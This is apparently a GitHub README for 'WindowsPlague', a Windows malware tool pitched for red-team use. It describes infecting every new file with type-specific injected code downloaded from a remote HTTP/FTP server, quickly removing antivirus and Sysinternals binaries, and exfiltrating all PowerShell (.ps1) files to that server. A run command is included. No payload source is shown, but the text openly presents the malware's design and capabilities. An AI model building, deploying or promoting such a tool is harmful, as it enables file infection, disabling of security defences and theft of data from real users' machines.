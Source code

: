# WindowsPlague

![logo](https://raw.githubusercontent.com/M507/WindowsPlague/master/Fullp.png)

WindowsPlague is Windows Malware built for Red-Team activities. Windows Malware monitors every new file in the system and infects it with a specific injection according to the kind of file. 


### Futures:
----------
* Infects every new file in the system.
* Customized injections for each file.
* Quick removal for any antivirus.
* Quick removal for all Sysinternals binaries.
* Collects all ps1 files and transfers them to FTP server, to analyse.

### How does it work?
----------
It needs a server that must have:

| File name | Description                  |
|-----------|------------------------------|
| Ips1.dll  | for Powershell files.        |
| Iasp.dll  | for asp and aspx files.      |
| Ibat.dll  | for Batch files.             |
| Iphp.dll  | for PHP files.               |
| Itxt.dll  | for txt files.               |
| antiu.dll | for all prohibited keywords. |


Each dll file should have the injection code for each type of file.
Thus, each PHP file will be injected by the contact of Iphp.dll.

For example, If you do not want to inject txt files, do write anything in Itxt.dll, and this way it will not inject anything in txt files. But Itxt.dll must exist in the HTTP/FTP server.

### Run
----------
```sh
Microsoft Windows [Version 10.0.17763.503]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Mohd> WindowsPlague.exe <HTTP/FTP server>
```

<HTTP/FTP server> Is needed so that the WindowsPlague can download all the .dll files from and whenever it finds a ps1 file sends it to <HTTP/FTP server>. 
